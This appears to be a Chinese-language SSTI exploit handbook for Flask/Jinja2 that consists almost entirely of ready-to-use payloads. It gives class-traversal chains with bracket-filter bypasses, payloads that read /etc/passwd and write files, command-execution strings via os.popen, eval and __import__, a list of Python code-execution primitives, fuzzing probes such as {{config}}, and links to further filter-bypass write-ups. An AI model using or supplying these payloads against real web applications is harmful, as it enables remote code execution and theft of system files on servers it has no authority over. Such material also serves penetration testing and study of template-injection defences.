 # EXP手册-服务端模板注入（SSTI） 
## 基础知识
[flask之ssti模版注入从零到入门](https://xz.aliyun.com/t/3679)
## EXP
### 0x01获取基本类    
```   
''.__class__.__mro__[2]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[8]
```
可以借助__getitem__绕过中括号限制：
```
''.__class__.__mro__.__getitem__(2)
{}.__class__.__bases__.__getitem__(0)
().__class__.__bases__.__getitem__(0)
request.__class__.__mro__.__getitem__(8)
```
注释：
```
__class__:获得当前对象的类
__bases__:列出其基类
__mro__ :列出解析方法的调用顺序，类似于bases
__subclasses__()：返回子类列表
__dict__ ： 列出当前属性/函数的字典
func_globals:返回一个包含函数全局变量的字典引用
```
### 0x02文件操作

>```object.__subclasses__()[40]```为file类，所以可以对文件进行操作
>读文件：
```
object.__subclasses__()[40]('/etc/passwd').read()
```
>写文件：
```
object.__subclasses__()[40]('/tmp').write('test')
```
### 0x03执行命令

>```object.__subclasses__()[59].__init__.func_globals.linecache```下直接有os类，可以直接执行命令：
```
object.__subclasses__()[59].__init__.func_globals.linecache.os.popen('id').read()
```
>```object.__subclasses__()[59].__init__.__globals__.__builtins__```下有```eval，__import__```等的全局函数，可以利用此来执行命令：
```
object.__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
object.__subclasses__()[59].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")
object.__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
object.__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()
```

### 0x04任意代码执行以及文件读取的函数

>os 执行系统命令
```
import os
os.system('ipconfig')
```
>exec 任意代码执行
```
exec('__import__("os").system("ipconfig")')
```
>eval 任意代码执行
```
eval('__import__("os").system("ipconfig")')
```
>timeit 本是检测性能的，也可以任意代码执行
```
import timeit
timeit.timeit("__import__('os').system('ipconfig')",number=1)
```
>platform
```
import platform
platform.popen('ipconfig').read()
```
>subprocess
```
import subprocess
subprocess.Popen('ipconfig', shell=True, stdout=subprocess.PIPE,stderr=subprocess.STDOUT).stdout.read()
```
>file
```
file('/etc/passwd').read()
```
>open
```
open('/etc/passwd').read()
```
>codecs
```
import codecs
codecs.open('/etc/passwd').read()
```
### 0x05Fuzz
```
{{config}}
{{handler.settings}}
{{app.__init__.__globals__.sys.modules.app.app.__dict__}}
```
### 0x06Bypass
- [Jinja2 template injection filter bypasses](https://0day.work/jinja2-template-injection-filter-bypasses/)
- [SSTI Bypass 分析](https://www.secpulse.com/archives/115367.html)
### Reference：
- [Flask/Jinja2 SSTI && python 沙箱逃逸](https://www.kingkk.com/2018/06/Flask-Jinja2-SSTI-python-%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8/)
- [Flask/Jinja2模板注入中的一些绕过姿势](https://p0sec.net/index.php/archives/120/)
